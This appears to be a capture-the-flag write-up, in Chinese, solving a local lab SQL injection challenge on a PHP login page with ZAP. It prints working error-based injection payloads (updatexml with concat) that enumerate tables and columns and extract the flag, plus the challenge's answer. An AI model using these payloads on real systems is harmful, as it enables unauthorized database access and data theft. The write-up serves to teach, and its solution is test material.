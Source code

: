 # SQL injection Q2

## 題目

- http://127.0.0.1/login.php
- http://127.0.0.1/user.php

## ENV

使用 `q2\docker-compose.my.yml` 內的 compose 建立含 zap 的環境

前往 `http://127.0.0.1:8080/zap` start ZAP 並進行 sql injection 攻擊。

## SOLUTION

在 `http://127.0.0.1/login.php` 頁面配合瀏覽器工具可以發現以下兩個線索

- 原始碼提到加入 `?tips=1` 可以顯示提示信息(暗示使用顯示出錯注入漏洞)
- 登入的 url 是 POST `http://127.0.0.1/login.php`，表單屬性為 `name` 和 `pass`

![alt text](image-1.png)

使用 zap 嘗試打 POST API 可以順利得到合理回饋

header

```
POST http://web-service:80/login.php?tips=1 HTTP/1.1
host: web-service
pragma: no-cache
cache-control: no-cache
content-length: 21
content-type: application/x-www-form-urlencoded
```

body

```
name=Alice&pass=2266
```

![alt text](image.png)

隨便在 body 參數中加入 `'` 可以破壞 SQL 語句，得到錯誤回饋，透過工具可以在 body 中收到

```
string(156) "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Alice''' at line 1"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
```

既然有顯示錯誤，那就使用顯示錯誤注入

使用 body，以下說明命令的細節

- 使用 OR 可以在 SQL 中追加任意判斷式，但不會輸出結果
- updatexml 可以用來執行 XML 操作，但我們主要的目的是利用他在出錯時會把第二個參數輸出的特性，因此首尾兩個參數是亂填的，目的是使其報錯，並輸出我們想要的結果
- 使用 concat 函數的目的是把表格轉型成字串才能作為 updatexml 的第二個參數，前後的 0x7e 是習慣，本體為 `~` 便於閱讀而已，可以另選用其他符號

```
name=Alice' OR updatexml(1, concat(0x7e, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()), 0x7e), 1);#&pass=2266
```

得到

```
string(34) "XPATH syntax error: '~fl4g,users~'"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
```

按照直覺，讀取 fl4g 表格的 col 名稱

```
name=Alice' OR updatexml(1, concat(0x7e, (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='fl4g'), 0x7e), 1);#&pass=2266
```

```
string(28) "XPATH syntax error: '~flag~'"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
```

得到 fl4g 表格的結構

```
name=Alice' OR updatexml(1, concat(0x7e, (SELECT flag FROM fl4g), 0x7e), 1);#&pass=2266
```

```
string(50) "XPATH syntax error: '~n1book{login_sqli_is_nice}~'"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
```

成功取得 flag 的值。
